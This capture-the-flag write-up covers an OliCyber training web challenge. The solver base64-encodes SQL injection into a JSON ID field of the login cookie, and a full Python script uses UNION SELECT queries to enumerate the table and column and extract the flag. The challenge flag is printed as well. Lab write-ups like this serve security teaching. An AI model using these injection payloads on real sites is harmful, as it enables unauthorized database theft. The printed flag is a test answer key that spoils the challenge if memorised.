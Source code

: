 ## Challenge Name: Sn4ck Sh3nan1gans
**Category:** Web

**Challenge Description:**

I found this login page, but there doesn't seem to be anything interesting. You look after us, I'm going to have a snack.

Website: http://sn4ck-sh3nan1gans.challs.olicyber.it

### Approach

After logging inside, I analyzed the cookie that was somethings like ```login: base64EncodedData```
and the login value was the base64 encoded value of something like ```{"ID":idValue}```.

After trying some bruteforce of the idValue leading to nothing, i tried something different by making an SQLinjection inside the ```idValue``` field.

Solution [here](/olicyber-training/web/Snack/solve.py)

```python
import requests
import base64
from bs4 import BeautifulSoup

url = "http://sn4ck-sh3nan1gans.challs.olicyber.it/home.php"

def execute_sql_payload(payload):
    encoded_payload = base64.b64encode(payload.encode()).decode()
    cookie = {"login": encoded_payload}
    response = requests.get(url, cookies=cookie)
    s = BeautifulSoup(response.text, 'html.parser')
    result = s.find('h1').get_text().replace("Welcome ", "")[:-1]
    return result

def retrieve_data(sql_query):
    id_payload = '{"ID": "1 '
    return execute_sql_payload(id_payload + sql_query + '"}')

# Retrieve table name
table_query = 'UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1'
table_name = retrieve_data(table_query)
print(f'Table name: {table_name}')

# Retrieve column name for the table
column_query = f"UNION SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' LIMIT 1 OFFSET 1"
column_name = retrieve_data(column_query)
print(f'Column name: {column_name}')

# Retrieve flag data
flag_query = f"UNION SELECT {column_name} FROM {table_name} LIMIT 1 OFFSET 1"
flag_data = retrieve_data(flag_query)
print(f'Flag: {flag_data}')

```

**Flag**
flag{W4sH_y0ur_HaNd5_b3f0Re_e4tin6_c0oki3s!} 

### Reflections

This challenge highlights the importance of input validation even inside cookies.

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>


